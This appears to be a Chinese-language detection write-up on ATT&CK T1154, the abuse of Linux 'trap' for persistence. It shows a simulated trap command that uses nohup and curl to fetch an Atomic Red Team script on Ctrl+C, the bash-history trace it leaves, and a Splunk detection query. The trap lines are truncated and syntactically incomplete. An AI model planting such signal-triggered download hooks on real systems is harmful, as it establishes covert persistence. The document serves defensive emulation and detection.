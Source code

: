 # T1154-linux-trap

## 来自ATT&CK的描述

该`trap`命令允许程序和shell指定在接收中断信号时将执行的命令。常见的情况是脚本允许正常终止和处理常见的键盘中断，如`ctrl+c`和`ctrl+d`。攻击者可以使用它来注册当shell遇到特定中断以执行或作为持久性机制时要执行的代码。陷阱命令具有以下格式`trap 'command list' signals`，其中当接收到“信号”时将执行“命令列表”。

## 模拟攻击

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh # 脚本即使在退出后（ctrl + c）也会即系执行程序/脚本。

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh 

关于trap、nohup命令的更多解释，你可以查看参考链接部分。

## 检测日志源

bash历史命令

## 攻击复现

icbc@icbc:/$ trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh 

> ^C

## 攻击留痕

icbc@icbc:/$ history

 693  trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh 

## 检测规则

index=linux sourcetype=bash_history "trap *" | table host,user_name,bash_command

## 参考推荐

MITRE-ATT&CK-T1154:https://attack.mitre.org/techniques/T1154/

linux下trap命令详解：https://blog.csdn.net/carolzhang8406/article/details/46504415/

linux下nohup命令浅析：https://www.bbsmax.com/A/kjdw9606JN/